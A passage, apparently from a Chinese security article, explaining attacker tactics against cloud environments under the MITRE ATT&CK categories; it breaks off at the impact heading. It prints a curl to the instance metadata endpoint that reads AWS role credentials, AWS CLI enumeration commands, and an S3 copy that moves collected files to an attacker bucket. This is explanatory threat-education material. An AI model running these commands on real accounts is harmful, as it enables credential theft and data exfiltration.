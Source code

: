   

 **第6类：凭证访问**  

  

凭证访问战术包括攻击者用来窃取凭证的一系列技术。这些凭证提供对云环境中系统和服务的访问或控制。获取凭据的技术包括暴力破解、查找并获取不安全存储的凭据等。

![](https://gitee.com/fuli009/images/raw/master/public/20210915182138.png)

通过使用云实例元数据API，可以找到登陆凭证和敏感信息。使用以下命令可以找到AWS的登录凭证，这些凭证是给群集节点相关角色来使用的。

    
    
    curl http://169.254.169.254/latest/meta-data/iam/security-credentials/nodes.darcorp-prod.com

  

 **第7类：发现**  

  

发现战术是攻击者用来探索他们获得环境访问权限的技术。这种探索有助于攻击者进行横向移动并获得对额外资源的访问权限。

  

这一类中使用的是系统、应用程序和网络中常用的发现技术，还包括一些特定的技术如S3、Lambda或route53。

如下，攻击者可以使用合法的cli命令列出云帐户中可用的服务：

  *   *   *   *   * 

    
    
    aws iam list-rolesaws iam list-usersaws iam list-attached-role-policies —role-name nodes.darcorp-prod.comaws emr list-instances --cluster-id j-3C6XNQ39VR9WLaws s3 ls

  

 **第8类：收集**  

  

在这个阶段，攻击者使用的技术可能会有所不同。为了收集信息，攻击者经常使用自动收集内部数据的技术来加速操作。下面的屏幕截图是一个真实案例，攻击者试图从蜜罐中的容器收集配置文件和机密信息：

![](https://gitee.com/fuli009/images/raw/master/public/20210915182139.png)

  

 **第9类：数据窃取**  

  

指攻击者使用MITRE ATT&CK框架技术窃取数据，并将其发送到受攻击者控制的目标上，可能是本地存储，也可能是其他云帐户。

下面的代码演示了攻击者试图通过ssh将收集到的所有数据复制到自己的计算机上，该计算机可能托管在云环境中。

![](https://gitee.com/fuli009/images/raw/master/public/20210915182140.png)

攻击者也可以使用云存储来窃取数据。以下命令使用S3 bucket复制以前收集的所有文件，并将其保存在自己的S3 bucket中。

  * 

    
    
    aws s3 cp /tmp/collected s3://asfsdfsdf/stealed --recursive

  

 **第10类：影响**  
